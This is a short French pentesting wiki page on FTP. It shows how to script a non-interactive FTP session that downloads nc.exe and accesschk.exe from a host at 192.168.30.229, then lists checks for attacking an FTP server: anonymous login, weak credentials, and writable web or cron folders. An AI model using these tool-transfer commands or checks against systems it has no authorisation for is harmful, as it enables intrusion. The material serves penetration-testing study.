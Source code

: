 ```yaml
---
title: FTP
permalink: /FTP/
---
```


# FTP

FTP non interactif
------------------

Il est possible d'utiliser FTP dans un shell non interactif en créant un fichier contenant les instructios a executer. Un exemple de fichier est le suivant:

``` bash
open 192.168.30.229
USER user
12345
bin
GET nc.exe
bye
```

Il est également possible de copier/coller les commandes suivantes pour créer ce fichier:

``` bash
echo open 192.168.30.229> ftp.txt
echo USER user>> ftp.txt
echo 12345>> ftp.txt
echo bin>> ftp.txt
echo GET accesschk.exe>> ftp.txt
echo bye>> ftp.txt
```

Enfin on execute les commandes contenues dans le fichier ftp.txt:

``` bash
ftp -v -n -s:ftp.txt
```

Exploitation
------------

Voici une liste d'éléments à vérifier face à un FTP

-   Récupérer la bannière du serveur FTP (avec [nmap](/nmap "wikilink")). Quelle est la version ? Est elle vulnérable ?
-   Peut on se logger en anonymous ? Avec quels droits ?
-   Peut on trouver un compte avec des identifiants faibles ?
-   Quels fichiers peut on trouver ?
-   Droits d'écriture ?
-   Est-il possible d'écrire dans un dossier lié à un répertoire web ?
-   Est-il possible d'écrire dans un dossier où des fichiers sont exécutés ? (ex: fichiers téléchargés par d'autres utilisateurs, scripts exécutés par un job cron, etc.)


